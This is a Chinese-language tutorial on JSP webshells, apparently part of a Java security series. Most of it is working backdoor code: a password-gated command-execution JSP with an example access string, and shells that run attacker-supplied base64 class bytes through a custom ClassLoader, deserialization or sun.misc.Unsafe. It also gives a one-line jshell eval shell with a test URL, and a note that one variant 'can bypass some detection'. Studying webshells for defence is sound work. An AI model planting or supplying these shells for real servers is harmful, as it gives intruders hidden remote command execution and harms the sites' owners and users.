





# Webshell

当浏览器请求 JSP 页面时， JSP 引擎会首先去检查是否需要编译这个文件。如果这个文件没有被编译过，或者在上次编译后被更改过，则编译这个 JSP 文件。

常见 JSP 引擎可能解析的后缀包括：jsp， jspx，jspf，jspa，jsw，jsv，jtml 等，不同的后缀可能对应不同的语法结构，但是总原理是一样的。

因此，这种方式使我们可以像 PHP/ASP 等解释型语言一样通过直接使用原代码文件的方式获取一个网站的Webshell。

所谓Webshell，是黑客入侵网站后经常使用的一种网页后门，通过使用一句话木马、特定功能小马或多功能大马来完成通过单文件对服务器系统的控制，通常包括查看系统信息、文件操作、代码执行、命令执行、数据库执行、反弹提权，查找文件、端口扫描、远程文件下载等功能。

如下为使用 `Runtime.getRuntime().exec()` 执行命令的木马：

```jsp
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8" %>
<%!
    public static String executeCmd(String c) {
        StringBuilder line = new StringBuilder();
        try {
            Process        pro  = Runtime.getRuntime().exec(c);
            BufferedReader buf  = new BufferedReader(new InputStreamReader(pro.getInputStream()));
            String         temp = null;
            while ((temp = buf.readLine()) != null) {
                line.append(temp).append("\n");
            }
            buf.close();
        } catch (Exception e) {
            line.append(e.getMessage());
        }
        return line.toString();
    }
%><%
    if ("023".equals(request.getParameter("pwd")) && !"".equals(request.getParameter("cmd"))) {
        out.println("<pre>" + executeCmd(request.getParameter("cmd")) + "</pre>");
    } else {
        out.println(":-)");
    }
%>
```

攻击者可以通过访问：`?pwd=023&cmd=ls` 来执行系统命令。不同木马的编制就是实现不同的功能，对于编码本身并没有什么难度，在这里并不进行赘述。

除了小马、大马外，对于webshell的使用更多的是一句话木马，因为可以自定义执行动作，并可以使用菜刀或其他管理工具进行连接。

对于使用<font color='red'>一句话木马</font>，在其他语言如 PHP 中通常使用 eval/assert 等有能力将字符串转为代码执行的函数或方法，配合中国菜刀等管理工具能够很丝滑的通过一个简单的 Webshell 管控服务器，对于 Java 这个语言该如何实现这些功能呢？

## 实现菜刀协议

很长的时间对于 jsp 木马的使用都是实现了菜刀的协议，这本质上并不是任意代码执行，本质上还是 JSP 大马，这部分的代码在网上可以搜寻得到。

## ClassLoader

顾名思义，它是用来加载 Class 的。它负责将 Class 的字节码形式转换成内存形式的 Class 对象。字节码的本质就是一个字节数组 byte[]，它有特定的复杂的内部格式。

我们通过重写 ClassLoader 来实现通过网络传来的编译后的类字节码，创建新实例，如下：

```jsp
<%@ page import="java.lang.reflect.InvocationTargetException" %>
<%!
    class U extends ClassLoader {

        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%><%

    String funMethod = request.getParameter("method");
    String classContent = request.getParameter("class");
    String args = request.getParameter("args");

    byte[] classByte = new sun.misc.BASE64Decoder().decodeBuffer(classContent);

    Class newClass = new U(this.getClass().getClassLoader()).g(classByte);
    try {
        String result = (String) newClass.getMethod(funMethod, String.class).invoke(null, args);
        out.print(result);
    } catch (NoSuchMethodException e) {
        e.printStackTrace();
    }

%>
```

构造的class文件：

```java
import java.io.IOException;
import java.io.InputStream;

public class Test {

	public Test() {
		System.out.println("123");
	}

	public static String cmd(String w) throws IOException {
		Process       a = Runtime.getRuntime().exec(w);
		InputStream   b = a.getInputStream();
		StringBuilder c = new StringBuilder();
		int           d;
		while ((d = b.read()) != -1) {
			c.append((char)d);
		}
		return c.toString();
	}

}
```

效果：



## 反序列化

反序列化也拥有可以将数据转换为类对象的能力，因此我们也可以使用反序列化来进行任意代码执行。

思路依旧是通过参数获取字符串，并反序列化成类对象，最终通过反射调用。

java代码如下：

```java
package org.su18;

import java.io.*;

public class Se1 implements Serializable {

	public static String cmd(String w) throws IOException {
		Process       a = Runtime.getRuntime().exec(w);
		InputStream   b = a.getInputStream();
		StringBuilder c = new StringBuilder();
		int           d;
		while ((d = b.read()) != -1) {
			c.append((char) d);
		}
		return c.toString();
	}
}

```

JSP代码如下：

```jsp
<%@ page import="java.io.ObjectInputStream" %>
<%@ page import="java.io.ByteArrayInputStream" %>
<%@ page import="java.lang.reflect.InvocationTargetException" %>
<%

    String clazz = request.getParameter("class");
    String method = request.getParameter("method");
    String parm = request.getParameter("parm");

    byte[] classByte = new sun.misc.BASE64Decoder().decodeBuffer(clazz);

    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(classByte));

    try {
        Object myObject = ois.readObject();
        Object result   = null;
        try {
            result = myObject.getClass().getMethod(method, String.class).invoke(null, parm);
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        }
        out.write(result.toString());
    } catch (ClassNotFoundException | IllegalAccessException | InvocationTargetException e) {
        e.printStackTrace();
    }

%>
```

效果：



由于我们自定义的类是不确定的，方法也是不确定的，因此我们想要实现通用，只能通过参数传递，并通过反射调用的方式执行代码，更好的办法是可以在 JAVA 中找到一个抽象类，存在能够接收和返回相应的参数的方法，我们构造一个继承这个抽象类的类，并重写方法，这样可以避免使用反射，并在 JSP 文件中直接调用此方法，能够绕过一些检测。

JAVA 文件如下：

```java
import javax.servlet.ServletOutputStream;
import java.io.*;

public class OverrideTest extends ServletOutputStream implements Serializable {

	@Override
	public void write(int b) throws IOException {
	}

	@Override
	public void print(String s) throws IOException {
		Process       a = Runtime.getRuntime().exec(s);
		InputStream   b = a.getInputStream();
		StringBuilder c = new StringBuilder();
		int           d;
		while ((d = b.read()) != -1) {
			c.append((char) d);
		}
		System.out.print(c.toString());
	}
}
```

在本例中我们选择了 ServletOutputStream 类的 print 方法进行重写，此方法接收 String 参数，无回显，为了观看测试结果，我们使用了`System.out.print`打印了执行结果。

JSP 文件：

```jsp
<%@ page import="java.io.ObjectInputStream" %>
<%@ page import="java.io.ByteArrayInputStream" %>
<%

    String clazz = request.getParameter("class");
    String parm = request.getParameter("parm");

    byte[] classByte = new sun.misc.BASE64Decoder().decodeBuffer(clazz);

    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(classByte));

    try {
        ServletOutputStream myObject = (ServletOutputStream) ois.readObject();
        myObject.print(parm);
    } catch (ClassNotFoundException e) {
        e.printStackTrace();
    }

%>
```

可以看到，我们反序列化的对象直接强转为 ServletOutputStream 类型，并通过调用 print 方法进行执行。

效果：


页面无回显，但在控制台可以看到命令已经执行成功



## sun.misc.Unsafe

正常情况下我们可以重写 ClassLoader 类来实现定义任意的类，但是某些时候我们无法通过自定义 ClassLoader 来定义类的时候可以使用这种方式来定义一个 class ，但是前提条件是在 JDK11 之前的版本。

shell文件：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%@ page import="sun.misc.Unsafe" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%
    String className = "Unsafe";
    Class clazz = null;

    try {
        clazz = Class.forName(className);
    } catch (ClassNotFoundException e) {
        byte[] bytes = new BASE64Decoder().decodeBuffer(request.getParameter("bytes"));

        Field f = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
        f.setAccessible(true);

        clazz = ((Unsafe) f.get(null)).defineClass(className, bytes, 0, bytes.length, getClass().getClassLoader(), null);
    }


    Process process = (Process) clazz.getMethod("exec", String.class).invoke(null, request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\A");
    out.println(s.hasNext() ? s.next() : "");
%>
```

构造的class文件：

```java
import java.io.IOException;

public class Unsafe {


	public static Process exec(String cmd) throws IOException {
		return Runtime.getRuntime().exec(cmd);
	}

}
```

效果：



新版本的JDK已经把这个native方法移除了，可以使用使用`java.lang.invoke.MethodHandles.Lookup.defineClass`来代替，MethodHandles不过是间接的调用了ClassLoader的defineClass罢了。

## jshell eval

JDK9 开始提供了一个叫 jshell 的功能，让开发者可以像 python 和 php 一样在命令行下愉快的写测试代码了。JDK9 已经发布距今 2 年时间了，但在生产环境下使用 JDK8 以上的应用依旧寥寥无几。不过我们只需要利用这一特性其实是可以实现任意代码执行了，也就是说正真意义上的原生的 java 一句话木马。

测试代码：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

测试URL：http://localhost:8080/shell?src=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(Runtime.getRuntime().exec(%22pwd%22).getInputStream())).readLine()

效果：



关于 Java 语言特性的部分将在下一章进行叙述，本部分仅提供了示例代码。